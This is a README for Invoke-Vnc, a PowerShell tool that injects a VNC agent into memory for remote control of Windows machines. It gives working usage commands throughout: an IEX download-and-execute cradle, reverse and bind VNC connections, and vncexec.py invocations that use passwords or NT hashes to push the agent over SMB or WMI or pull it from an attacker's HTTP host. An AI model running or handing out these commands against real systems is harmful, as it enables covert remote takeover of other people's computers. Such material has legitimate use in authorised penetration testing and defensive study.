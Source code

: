 Invoke-Vnc - a powershell VNC injector
===================

Invoke-Vnc executes a VNC agent in-memory and initiates a reverse connection, or binds to a specified port. Password authentication is supported.

Usage example
------------------

Invoke locally:
```powershell
Import-Module Invoke-Vnc.ps1
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900 -Password P@ssw0rd
```

Invoke over net:
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/artkond/Invoke-Vnc/master/Invoke-Vnc.ps1')
#Reverse VNC connection
Invoke-Vnc -ConType reverse -IpAddress <backconnect_ip> -Port 5500 -Password P@ssw0rd
#Bind VNC connection
Invoke-Vnc -ConType bind -Port 5900 -Password P@ssw0rd
```

Launch VNC listener to catch reverse VNC connection:
```
vncviewer –listen <port>
```

Execute agent remotely via WMI
--------------------------
If you have authenticated access (password, nt hash or kerberos ticket) to the machine, you can use the vncexec.py script to execute the VNC agent.

Upload an encoded ps1 script as a bat file via SMB and execute the agent to bind a VNC port on target:
```
vncexec.py -invoke-vnc-path Invoke-Vnc.ps1 -contype bind -vncport 5900 -vncpass P@ssw0rd -method upload user:pass@target_ip
```
Download the script via HTTP from the attacker's host and execute the agent to get a reverse VNC connection:
```
vncexec.py -bc-ip <attacker's_host> -httpport 8080 -invoke-vnc-path Invoke-Vnc.ps1 -contype reverse -vncport 5500 -vncpass P@ssw0rd -method download user:pass@target_ip
```

Script depends on a recent build of impacket library. Get it at https://github.com/CoreSecurity/impacket
```
git clone https://github.com/CoreSecurity/impacket
cd impacket
sudo python setup.py install
```

Build notes
----------
Project is built using Visual Studio 2013. To successfully build the solution you need python to be available at C:\Python27\python.exe. Both x86 and x64 configurations must be built in order to update Invoke-Vnc.ps1 script.


To-do
--------
- Fix session tracking


Author
------

Artem Kondratenko https://twitter.com/artkond


Credit
------
Repo is based on the following projects:

- https://github.com/rapid7/metasploit-framework/tree/master/external/source/vncdll
- https://github.com/CoreSecurity/impacket/tree/master/examples
- https://github.com/stephenfewer/ReflectiveDLLInjection
- https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
